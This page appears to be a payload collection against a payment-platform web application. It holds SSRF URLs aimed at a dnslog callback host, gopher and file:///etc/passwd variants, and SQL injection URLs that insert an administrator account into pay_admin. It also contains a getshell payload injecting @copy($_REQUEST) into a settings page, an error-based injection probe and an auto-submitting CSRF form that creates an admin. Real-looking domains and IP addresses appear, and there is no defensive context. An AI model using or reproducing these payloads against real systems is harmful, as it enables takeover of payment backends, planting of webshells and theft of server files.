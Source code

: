 <http://47.104.233.93/Payment_Index_batchQuery>

SSRF
----

[http://api3.e-shion996.com/Payment_MGZF_PaymentQuery?data[orderid]=123&config[query_gateway]=http://o7xva.l.dnslog.io&config[mch_id]=123](http://api3.e-shion996.com/Payment_MGZF_PaymentQuery?data[orderid]=123&config[query_gateway]=http://o7xva.l.dnslog.io&config[mch_id]=123) o7xva.l.dnslog.io/\`file\`

<gopher://192.168.220.139:80/_POST%20/test/ssrf/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=bbbbb>

<file:///etc/passwdhttp://example.com/ssrf.php?url=file:///C:/Windows/win.ini>

SQL注入添加管理員用戶
---------------------

index.php?m=Pay&c=Alipage&a=callbackurl&out_trade_no[0]=exp&out_trade_no[1]==20190722230646541015;insert%20into%20pay_admin%20(\`id\`,\`username\`,\`password\`,\`groupid\`)%20values%20(%27801%27,%27ok%27,%277aa5e695be95cdd64a88410a64dfe2c1%27,%271%27);--+

SQL注入（需要代理賬戶
---------------------

index.php?m=user&c=IntoPieces&a=ajaxGetIndustry DATA: id=123&name=_log ; insert%20into%20pay_admin%20(\`id\`,\`username\`,\`password\`,\`groupid\`)%20values%20(%27101%27,%27ok%27,%277aa5e695be95cdd64a88410a64dfe2c1%27,%271%27);--+

insert into pay_admin (\`id\`,\`username\`,\`password\`,\`groupid\`) values ('101','ok','7aa5e695be95cdd64a88410a64dfe2c1','1');--+

<http://vip.qhkjpay.cn/conn.php>

SQL注入(payload和上面相同)
--------------------------

index.php?m=user&c=api&a=ajaxGetIndustry

后台Getshell
------------

manage_System_base.html ',@copy(\$_REQUEST[x],\$_REQUEST[c]),//

SQL報錯注入（API支付)
---------------------

Pay_Pay_getSignkey?code=123\*&merid=222

CSRF添加管理員
--------------

`
<html lang="en"> <br>
<body onload="document.forms[0].submit();"> <br>
<form  id="form1" name="form1" action="http://127.0.0.1:93/index.php/luck_Admin_addAdmin.html" method="post"> <br>
<input type="hidden" name="username" value="ok179"> <br>
<input type="hidden" name="password" value="test123"> <br>
<input type="hidden" name="reppassword" value="test123"> <br>
<input type="hidden" name="groupid" value="1"> <br>
</body> <br>
</html>

`